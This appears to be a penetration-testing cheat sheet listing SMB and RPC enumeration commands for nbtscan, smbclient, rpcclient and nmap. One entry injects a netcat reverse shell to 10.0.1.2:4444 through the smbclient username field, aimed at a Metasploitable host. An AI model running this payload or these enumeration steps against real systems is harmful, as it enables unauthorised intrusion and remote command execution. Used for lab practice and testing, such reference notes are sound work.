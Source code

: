 # SMB Enumeration
======
#### Get Hostname
nbtscan <ip-address>
#### Get Hostname of IP Range
nbtscan -r 10.0.0.0/24
#### Get Shares
smbclient -I <ip-address> -L <hostname>
#### Interact with Share
smbclient \\\\<ip-address>\\share -U <user>
#### Command injection in SMB Username
smbclient -I 10.0.0.107 -LMETASPLOITABLE -U"/=`nohup mkfifo /tmp/p; nc 10.0.1.2 4444 0</tmp/p | /bin/sh >/tmp/p 2>&1; rm /tmp/p `"
#### Mount Share (Windows)
net use \\<target-ip>\share <password> /u:<username>

## RPC Enumeration
------
#### rpcclient (null session)
rpcclient -U "" ip.addr
#### Get RPC Info from a List of Servers
nmap -sV -p 111 --script=rpcinfo 10.0.0.1-254
#### List all Groups
enumdomgroups
#### Query a Group
querygroup 0x44f
#### Query Member of Group
querygroupmem 0x44f
#### Query Users
enumdomusers
#### Query a User
queryuser 0x451